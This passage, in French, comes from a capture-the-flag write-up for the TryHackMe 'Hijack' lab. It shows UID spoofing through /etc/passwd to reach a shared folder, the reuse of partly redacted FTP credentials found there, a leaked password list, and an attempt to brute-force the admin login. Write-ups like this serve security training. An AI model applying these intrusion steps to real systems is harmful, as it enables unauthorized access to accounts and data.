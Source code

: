 puis modifier le fichier **/etc/passwd** pour changer son **UID**:
```
test1:x:1003:1003:,,,:/home/test1:/bin/bash
```
Et nous pouvons entrer dans le dossier
```
test1@kali:/home/kali/Challenge/TryHackMe/Hijack/Shared$ ls -la
total 12
drwx------ 2 test1 1003 4096 Aug  8  2023 .
drwxr-xr-x 4 kali  kali 4096 May  2 06:13 ..
-rwx------ 1 test1 1003   46 Aug  8  2023 for_employees.txt
```
J'y trouve les creds pour le FTP
```
test1@kali:/home/kali/Challenge/TryHackMe/Hijack/Shared$ cat for_employees.txt 
ftp creds :

f[...REDACTED...]r:W[...REDACTED...]4
```
## FTP
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Hijack]
└─$ ftp 10.10.211.179
Connected to 10.10.211.179.
220 (vsFTPd 3.0.3)
Name (10.10.211.179:kali): f[...REDACTED...]er
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||19747|)
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 Aug 08  2023 .
drwxr-xr-x    2 1002     1002         4096 Aug 08  2023 ..
-rwxr-xr-x    1 1002     1002          220 Aug 08  2023 .bash_logout
-rwxr-xr-x    1 1002     1002         3771 Aug 08  2023 .bashrc
-rw-r--r--    1 1002     1002          368 Aug 08  2023 .from_admin.txt
-rw-r--r--    1 1002     1002         3150 Aug 08  2023 .passwords_list.txt
-rwxr-xr-x    1 1002     1002          655 Aug 08  2023 .profile
226 Directory send OK.
```
On a 2 fichiers intéressant, le 1er, **.from_admin.txt**
```
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.
```
et **.passwords_list.txt** qui contient une liste de password.
```
[...]
H9xU8JpFqHHPxcXkRrG6
q9eZnWjs3SnqTPvRHXwR
2tR9ZTwKXBVfDYq9KQfQ
9etkUf4tQemLKJBYvVQm
[...]
```
Je sais qu'il existe un compte **admin** car la page login est parlant et indique si le username ou le mdp est incorrect.
Je test un brute-force mais je me fait bloquer...
